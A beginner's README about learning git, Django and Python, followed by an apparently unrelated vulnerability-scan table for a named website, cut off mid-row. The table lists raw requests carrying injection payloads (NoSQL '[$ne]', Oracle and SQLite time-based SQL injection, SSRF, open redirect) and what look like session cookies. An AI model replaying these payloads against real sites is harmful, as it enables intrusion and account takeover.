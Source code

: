 # hello-world
Software Engineering Tech exercise with git, django and python
**This is Amoo Olukunle. I am trying to create a new me in software engineering profession**
*The journey is rough and tough, but the destinition is glorious*
>Though time never last, but though people do
>There are so many things to learn in the program
1. Code skill
2. Collaboration
3. Programming
4. Software development
>There are so many tasks to do
- [] Learn github
- [] Learn Django
- [] Learn Python.
 >
You would like to visit the following website for more information, visit
[Django Tutorial](https://www.djangotutorial.com)
[Git Tutorial](https://www.githubtutorial.com)
[Python Tutorial](https://www.pythontutorial.com)
[^1]: This is the beginnig of a great thing.


| \` | Risk                                    | URL                                                                                                                                                                                  | Attack                                                                                                                                                                                                                                                                                                                                                                           | Request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Response                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| -- | --------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | External Redirect                       | [https://security.unionworx.cloud/account/information/notifications](https://security.unionworx.cloud/account/information/notifications)                                             | [http://6708871227364033168.owasp.org](http://6708871227364033168.owasp.org/)                                                                                                                                                                                                                                                                                                    | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://6873829442880229062.owasp.org<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6InVvR2hYaUNlQ1NuRHVROEFFQUlmWEE9PSIsInZhbHVlIjoic0Y3MlRmM1JjWVA2alBtbEg<br>0Q3ljU0hNY24xTnVGRmtnODdwSlQ4a3dzcVdyTUlqZWZjQ1ZrMzFoVngxQUJIV29pRktuT2V6U0ZPNjRiRlg4Y2N5dGxLSVBoVEljSXp<br>BWHhGdmFrcmd3TFhXbXBFVHJkcm9oL0ZJelloTUdMa0QiLCJtYWMiOiJmZDY5MzJjNWEyZTg4ZTdhM2RmYz<br>hlMDI2NzJhOTI3OWQzNDY0YzUzNGM0ZmQwOTZlMjBlMDMwODc2NWU1ZjRhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IlRIWWJmRmlLS1g0K3NrdStIekx4NkE9PSIsI<br>nZhbHVlIjoiRU5hUHBUTDN3VW8vbDV5RHliSnNoSlBWT1A5TE9NSmlHc1dBeDExMHFLa0MzSG<br>N5ZjFLTFc5TzVVS2psb2RRcFkzcFVnS3JtRjJCTERHcm41dVozOXNYRzgvQ0ZnVXdJeHp1SGVJN2dVeWx3NTAzMWVXRlhZRFN4dHVvUm51R3AiLCJtYWMiOiJlZmJl<br>YjM1MTQ1MTJiYjRkMTVmNTZjYWJmODM2MGIwOTI5OTUzMzJjYzU3ZjkyZWZmNjEzNTcxNDc0ZmU2MGFmIiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                               | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Mon, 25 Mar 2024 20:58:01 GMT<br>Location: http://6873829442880229062.owasp.org<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IlBQcFNkUVpQRExPUjNpZUNuUjBVT3c9PSIsInZhbHVlIjoiZ0MwTkVLeEVlZ01MZ3hvdEpW<br>K2o4WFMzV3hrUkp3V2F2REx5OU9xWnRoVklNbTFCQjU5NlliZkFLbTZzWkpFekEzVzR6QnFScmUwc1FqdmZFRVphUG5XR3NsRk9jaER5bWpQY0RzdWVNMWd2e<br>UdKTHdSNEMwdGdSZFV0bHA4OHkiLCJtYWMiOiI1MWYzMjE3YzQwNDQ5MWRiNGN<br>mNTA2YWFiNjE5NjI1ZGJiYWQxNTQ3N2UzYzA3NDM4NWVlZTVmN2Q5M2FmZjFjIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie:<br> ibew_test_22_union_worx_session=eyJpdiI6Ik9oaEdvMlBUOXhrMGJja3A5TjJYMUE9<br>PSIsInZhbHVlIjoiVU12YnJLZXBYQnlJSTFGa2tqeUJOYTE5Qjl3TTZscWd2MGxtSlYvNUNmdDkrb2x<br>UNENNZ2lDc3FzTHZCR1lQZHFFVjluaGFDY3p1Y1ZSaWpSWFpEdkpwN2lIVTEzcnduSmowL0pDZ2JJZDNKeWk1OWI1YU1rNWk3<br>WGlXMXF0NlAiLCJtYWMiOiIwNzdhMDAzYzFmOGY5MjRiZmJhMmZhMThiZjk2MWFjNjAwNDA2NDZjZmJhMjJhMzcxZjAyYmEyNzg1Zjc0YzlmIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 390                                | URL redirectors represent common functionality employed by web sites to forward an incoming request to an alternate resource.<br> This can be done for a variety of reasons and is often done to allow resources to be moved within the directory structure <br>and to avoid breaking functionality for users that request the resource at its previous location. <br>URL redirectors may also be used to implement load balancing, leveraging abbreviated URLs <br>or recording outgoing links. It is this last implementation which is often used in phishing attacks as described in the example below. <br>URL redirectors do not necessarily represent a direct security vulnerability but can be abused by <br>attackers trying to social engineer victims into believing that they are navigating to a site other than the true destination.      <br>The response contains a redirect in its Location header which allows an external Url to be set.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Assume all input is malicious. Use an "accept known good" input validation strategy, i.e., use an allow list of acceptable inputs that strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something that does. Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list). However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 2  | NoSQL Injection - MongoDB               | https://security.unionworx.cloud/                                                                                                                                                    | favicon.ico[$ne]                                                                                                                                                                                                                                                                                                                                                                 | GET https://security.unionworx.cloud/ HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/login<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkVWdlB4WHFOcUNBcXIzNkU0UnBHWnc9PSIsInZhbHVlIjoiQXJuVVM4OVF6TlBxU3dvVDAvWUVtTjV1dnpsS1pSWTlKSyswMTlPdUJTRUlOSklNbWc4dUozZkE1STFETUIxdHRKTlhucUpIekhGZkxpclhQMVgzdnh0Um9OV3lZSHNhcllPVkdobXVZUW1LTytPVE9acVlJd1U1RVhCTldobmYiLCJtYWMiOiIyZmJkMTBlY2I2ZTM3YjQyYTgwMjkxOWUyNTU4OWM5NzhhYzQxNTYwOTRmMjk3MjZiODBlYWIwYTc5Y2UzOTdhIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IkdYd0VJVnpxZGRpc0RHbis3Uy92M1E9PSIsInZhbHVlIjoieVlPdmlnYzlvOGp5YzF3VUtqSWJKQUl5b3ZoenN3WXJpMEhzTkM0RDhuOVVqUjdYNktQMEJPWkIwdXErZjlmS2pwbVl2VW1CKy9vakNSUWMyYVFCTzJVMjRhTFRtRFRabFlDcDgzd2lBa2FHQndlUm5QU1dUUlpDQUF5bzVpb3YiLCJtYWMiOiIyZmZkMGIwZmRiYjU0MTBkYzQyNmNjNTNiMjc1ZjhjN2Y0MjViOTU4MWQ1NGJjOTY0YWM1NTM3ZDc1NzM3ZDgxIiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                                                                                                                                                                                                                          | HTTP/1.1 200 OK<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>Cache-Control: no-cache, private<br>Date: Mon, 04 Mar 2024 08:30:41 GMT<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6InZFT0hBQm16UVBnN3ZRbVd0M29RQXc9PSIsInZhbHVlIjoiSzJxT1lYeUwzS1BnZ3BtUU52RHdzOFhYcjBNUTJKTk14b09TM01UK3Y4bTZsZUYvcWczTXV6b0JXYmxTNWM2VVE3M3p2WmJzMTBpUmZDQ1dod0RaZGNveGppUGpFc2RwSkMxb2VWNWNiM3R5WU1BSXhoY2psL0VWU050cVdPWkciLCJtYWMiOiI4NTM0MzFjNzNkYWQ4M2U0MWIxNDc0YmFlNDlkYTgyYWM3YjE4M2RiOTRlNzNlN2EwY2M2ZWVlZGNiMGU0NDIwIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6ImY4Wmtqa2tmL1RjeFhkMGhBZFYxdmc9PSIsInZhbHVlIjoibW1iUTRUZmJUM29VWUNqVHFDdkNkWE13Uk96WU9DOVlUdjI3d1FsbVl3bzhwMXFra055dTJIaXAxeHJaMG9YMUdwanBIbGcrakgyRHpEMVF6YTRxdy8xNkJWWW5XMG14MVMyZnlwSUVHLzAyRXVIVzdZK1hEL1hWRGNnQ29tYU8iLCJtYWMiOiIxYTZkN2Q5ZTQ0YTVhNTQ3MzUxZmM2NDBmYTE5OGE4ZmUyNWI0Y2E3MWU3NmNhOTQyY2Q5YmNiNzBmNjdlOWMxIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 33888<br>                                                      | MongoDB query injection may be possible.                                                    In some PHP or NodeJS based back end implementations, in order to obtain sensitive data it is possible to inject the "[$ne]" string (or other similar ones) that is processed as an associative array rather than a simple text.<br>Through this, the queries made to MongoDB will always be true.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Do not trust client side input and escape all data on the server side.<br>Avoid to use the query input directly into the where and group clauses and upgrade all drivers at the latest available version.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 3  | SQL Injection - Oracle - Time Based     | [https://security.unionworx.cloud/img/home/hero-bg-1-lg.png](https://security.unionworx.cloud/img/home/hero-bg-1-lg.png)                                                             | field: [Accept], value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ] | GET https://security.unionworx.cloud/img/home/hero-bg-1-lg.png HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) --<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/resources/css/main.css?id=ad4a6397d15fe88f1f651f12fb7f52ad<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkNKSHBvSXpxenpHWVpvN1JZUlFZUUE9PSIsInZhbHVlIjoiYW9sTmZNS2ZFZC9CN1pWcXFoT1hoeG5rOFdYUUI2di9pT1FPZWtSeUNjWFZnNVpQcUtPNUdXUXdpS0kvbU44SjVsamUydHVaQ0xZa2x3cXUxR1RaNCtKQ1lSR0J0aEJLVFZ2eTRFdklPUnhWbFkyUlFKMVprSXpYYnJ1RTJsWjUiLCJtYWMiOiJhYzlkNmQ0M2ZmMzg5N2EwYTc5ZDQwYjcwYTI4ZjUyNjJjMzQ3MTA1OGI1YjVkMmYxMDE5N2RhYjQxOTMwMDFmIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IjVuQU1SZTFFVDdDeUFRdVRKemF3bkE9PSIsInZhbHVlIjoiV3JpNHExKy9xcmdZa1dOWjFCZWhuS1JBV3h4UkFsVTdPY1hvZE01bVcvOUhUdXoxc2h6VWUyc0pLZ045S2hMRW91eXNGL2VIcWFvVHYxQ1B1bkk1RWNicHc4OHJLd1NTT05tNUZEd0czU0Zua0VQOUowelBtZUlkVG4rK2xIcWciLCJtYWMiOiI4ZTIyMGY3NzE5NzcwZDg5NzUzODBkMDFjNjIwYWE3ZTkxNDg0NjVkZTc5YjNlNjU4ZmU2Mjg0NGU0OWNkZGQ1IiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br> | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Mon, 04 Mar 2024 15:19:17 GMT<br>Content-Type: image/png<br>Content-Length: 4378350<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>ETag: "65e2887c-42ceee"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | SQL injection may be possible.                                                                          The query time is controllable using parameter value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ], which caused the request to take [8,459] milliseconds, when the original unmodified query with value [image/avif,image/webp,\*/\*] took [422] milliseconds                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Do not trust client side input, even if there is client side validation in place.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 4  | SQL Injection - SQLite                  | [https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js](https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js) | case randomblob(10000000) when not null then 1 else 1 end                                                                                                                                                                                                                                                                                                                        | GET https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: \*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/account/information/general<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6InJjQ1BZdXdUQWtwR3o5OGFJcXFOQ2c9PSIsInZhbHVlIjoiT29QOHVCbVc4bWllRlBQT1E1THViOWx6WnRlYUFJZW80VXdrNXlJOXpIaHRLcktyaDFpNkdleEZoQ01EU0hQRDJRcFJtamo5TlZkSm42WFlRakxSbzVXYWFRYmUrVDAyZGpwQ3ZmSThmV1ZzNWZLMzA1UEJ6NnprTXNzNE51MnkiLCJtYWMiOiJjZjZhYjRiZjE1ZDExOThhNmYzM2ZjMmIyNTBmMWJkZjcyODMyY2JiZjkyYzM4NzY1NGRjYWUzZDhmOTA4OWM0IiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6IkhTOWFma2VvMSswVHQ4OTBBR3lFQmc9PSIsInZhbHVlIjoiTHVuNGIrT1BPVjZlUkdzTUFKcysvd216ZlgxemhmSVhRenlwdjRzSER5bWRSYkNSelYyTUM2RXpFRjJGN1N5OTN6aUQ5UTdZZ3haSFc5bkZEbm5kQ0FzNGlWZmZ6TkVQTDZsYXplZnlGUi9ZVERuMzRkRWpvdE5NNDh2azZPaTEiLCJtYWMiOiIxMDViNWE5NGUyYTc5MWZiZmNiZDhhYjQwMTI3NjMyZWQ3YTExYmRjOGFiYzAxMTFiNmE5NWIxYWE4MGUzYjBhIiwidGFnIjoiIn0%3D; \_ga=GA1.2.10702593.1709819271; \_gid=GA1.2.2119953206.1709819271; \_gat_gtag_UA_132022492_1=1<br>Sec-Fetch-Dest: script<br>Sec-Fetch-Mode: case randomblob(1000000) when not null then 1 else 1 end<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                 | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Thu, 07 Mar 2024 21:31:51 GMT<br>Content-Type: application/javascript; charset=utf-8<br>Content-Length: 36675<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>ETag: "65e2887c-8f43"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | SQL injection may be possible.                                                                                                                                                                    The query time is controllable using parameter value [case randomblob(10000000) when not null then 1 else 1 end ], which caused the request to take [471] milliseconds, parameter value [case randomblob(100000000) when not null then 1 else 1 end ], which caused the request to take [646] milliseconds, when the original unmodified query with value [ZAP] took [360] milliseconds.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Do not trust client side input, even if there is client side validation in place.<br>In general, type check all data on the server side.<br>If the application uses JDBC, use PreparedStatement or CallableStatement, with parameters passed by '?'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 5  | Server Side Request Forgery             | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | [http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d](http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d)                                                                                                                                                                                                                                               | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZhbHVlIjoiNm42TzkwVTRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGEraWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNiTVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1WkRZdUFwU3dyc1IiLCJtYWMiOiJlYmM1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D; ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3TnBkdWRjUndsZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ2dLbm5wS2lhSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW52N09hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJtYWMiOiJjZDM2ZTJhZGZiNzA4ZTQ2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                    | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:22:28 GMT<br>Location: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IkcxWlNwQ3l5clB6dU5PM1NvblVnRlE9PSIsInZhbHVlIjoid0M4ZmtIM0l5WWVCWGpTMDUrdWNnU1pRTExqa0FBY2toVTgyWjN6UGpmaTA1aHN2bFduT1Q0RzRibFhnSkJxc1NKdDFML1NpNFRDWUxLaCtkYWh0Z3BETVhRMVVYQUl1USs2QjhNTHZyazlNc2d2Tjg5YXlEOUdQcW94VkRNY2kiLCJtYWMiOiJiOGNhZmNiYTA2MWMwM2FjOWI2YTJlOWZlMDg4Y2Y0OWE2N2VhNWFlYjI2M2Q1NjA1MWQ3NzNiMzczY2JlMGI0IiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjN6NW9nRm1IL20wV01OcVh6L2lrd3c9PSIsInZhbHVlIjoibE5IK1Y1cC9DSWRVYTFEMzFFMHVDNjZlclBENnVNc2dZTFk1QVo0S2hHZUZxK3JpM01FMWx6MTdqb1VnUExCcm5DV2lFU1BGUmpqQnl5NEZPMGc1RkxjQWRnS1pjQ0E4NlM2VmRqeGgrNVNpY2RkcWFEZ0JuNi9OVE5VMWdiTDIiLCJtYWMiOiJhZjQxNTMxMTYyNWM3YWNhZmI2MjRiOTZlOTA3YjlhN2UzYjQ2ZDdkYWM2ODAzOTkxOGFkNTdkNDQ1ODZkMGZhIiwidGFnIjoiIn0%3D; expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 498<br> | The web server receives a remote address and retrieves the contents of this URL, but it does not sufficiently ensure that the request is being sent to the expected destination.                                                   Received out-of-band interaction [GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1]<br>Request<br>GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1<br>host: 192.168.153.1:60742<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8<br>Accept-Language: en-US,en;q=0.5<br>Referer: http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619<br>Origin: https://security.unionworx.cloud<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IjhoWjMxdUtaQkhOdStBUk1XNmtENWc9PSIsInZhbHVlIjoiSlFmclpUaUlOT0krSGtKN2tOQ1M0N1ArM3JuVkhaZ3E2cjdtVW9FVXR4Ni9JV1ptNE41QmlMdnQ4ZVZRd215VXNUQ3hqdDZOazF2MVJtd3E1M2dTZVlWWlF1eStETlNmWCtMUmZCU01DdVFjMy9OdDBVa2hoNXMvaE9MKzBpcVkiLCJtYWMiOiJkNzNhZGYzNzA2ZGQ2MWNjOGNiZTNkYzZlOGM3MjkyMzFkMWZmZTM4NjIxZTljZWUzOTgyOGVhYzUxMTI3NjZhIiwidGFnIjoiIn0%3D; 